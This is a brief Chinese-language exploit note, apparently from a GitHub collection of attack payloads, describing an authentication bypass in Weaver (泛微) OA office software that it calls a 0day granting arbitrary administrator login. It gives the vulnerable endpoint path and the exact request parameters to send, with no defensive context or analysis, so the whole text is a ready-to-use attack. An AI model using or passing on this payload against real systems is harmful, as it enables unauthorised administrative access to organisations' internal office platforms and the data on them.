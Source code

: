 ## 泛微OA-0day管理员任意登录


> URL
```
/mobile/plugin/VerifyQuickLogin.jsp
```

> Payload
```
identifier=1&language=1&ipaddress=
```
